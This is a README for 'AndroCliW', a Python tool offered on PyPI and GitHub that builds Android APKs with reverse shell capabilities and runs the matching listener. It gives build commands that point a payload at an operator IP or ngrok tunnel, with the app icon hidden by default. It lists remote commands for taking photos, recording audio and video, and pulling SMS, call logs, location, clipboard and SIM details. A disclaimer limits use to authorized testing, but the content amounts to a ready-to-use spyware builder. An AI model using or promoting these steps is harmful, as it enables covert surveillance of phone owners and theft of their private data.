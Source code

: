 # AndroCliW - Android CLI Tool

[![PyPI version](https://badge.fury.io/py/androcli.svg)](https://badge.fury.io/py/androcli)
[![Python](https://img.shields.io/pypi/pyversions/androcli.svg)](https://pypi.org/project/androcli/)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

AndroCliW is a powerful command-line tool for Android penetration testing and reverse shell operations. This tool allows you to build APK files with reverse shell capabilities and interact with Android devices remotely.

## Features

- 🔧 **APK Building**: Build custom APK files with reverse shell capabilities
- 🌐 **Ngrok Integration**: Use ngrok for tunneling connections
- 📱 **Remote Shell**: Get interactive shell access to Android devices
- 🎯 **Penetration Testing**: Designed for security professionals and researchers
- 🔒 **Stealth Options**: Configurable icon visibility for stealth operations

## Installation

### From PyPI (Recommended)

```bash
pip install androcli
```

### From Source

```bash
git clone https://github.com/AryanVBW/androcli.git
cd androcli
pip install -e .
```

## Requirements

- Python 3.6 - 3.8
- Java 8 (for APK building)
- Android SDK (optional, for advanced features)

## Usage

### Basic Commands

```bash
# Build an APK with reverse shell
androcli --build -i <IP_ADDRESS> -p <PORT> -o <OUTPUT_APK_NAME>

# Start shell listener
androcli --shell -i <IP_ADDRESS> -p <PORT>

# Build APK with ngrok tunneling
androcli --build --ngrok -p <PORT> -o <OUTPUT_APK_NAME>

# Build APK with hidden icon
androcli --build -i <IP_ADDRESS> -p <PORT> -o <OUTPUT_APK_NAME> --icon
```

### Command Line Options

- `--build`: Build the APK file
- `--shell`: Start the shell listener
- `--ngrok`: Use ngrok for tunneling
- `-i, --ip <IP>`: Specify the IP address
- `-p, --port <PORT>`: Specify the port number
- `-o, --output <NAME>`: Specify the output APK name
- `--icon`: Make the app icon visible (default: hidden)

### Shell Commands

Once connected to a device, you can use various commands:

- `deviceInfo`: Get basic device information
- `camList`: List available cameras
- `takepic [cameraID]`: Take a picture
- `startVideo [cameraID]`: Start video recording
- `stopVideo`: Stop video recording
- `startAudio`: Start audio recording
- `stopAudio`: Stop audio recording
- `getSMS [inbox|sent]`: Get SMS messages
- `getCallLogs`: Get call logs
- `shell`: Start interactive shell
- `vibrate [times]`: Vibrate the device
- `getLocation`: Get device location
- `getIP`: Get device IP address
- `getSimDetails`: Get SIM card details
- `getClipData`: Get clipboard data
- `getMACAddress`: Get MAC address
- `clear`: Clear screen
- `exit`: Exit the session

## Project Structure

```
androcli/
├── androcli/
│   ├── __init__.py
│   ├── main.py
│   └── utils.py
├── Android_Code/          # Android source code
├── Compiled_apk/          # Pre-compiled APK template
├── Jar_utils/             # Java utilities (apktool, signing)
├── Dumps/                 # Output directory for captured data
├── setup.py
├── requirements.txt
└── README.md
```

## Security Notice

⚠️ **Important**: This tool is designed for educational purposes and authorized penetration testing only. Users are responsible for ensuring they have proper authorization before using this tool on any devices or networks. Unauthorized access to computer systems is illegal.

## Legal Disclaimer

This tool is provided for educational and research purposes only. The authors and contributors are not responsible for any misuse or damage caused by this tool. Always ensure you have explicit permission before testing on any systems you do not own.

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request. For major changes, please open an issue first to discuss what you would like to change.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Author

**AryanVBW**
- Email: whitedevil367467@gmail.com
- GitHub: [@AryanVBW](https://github.com/AryanVBW)

## Support

If you encounter any issues or have questions, please [open an issue](https://github.com/AryanVBW/androcli/issues) on GitHub.

---

**Note**: This tool requires Java 8 for APK building functionality. Make sure you have the appropriate Java version installed and configured in your system PATH.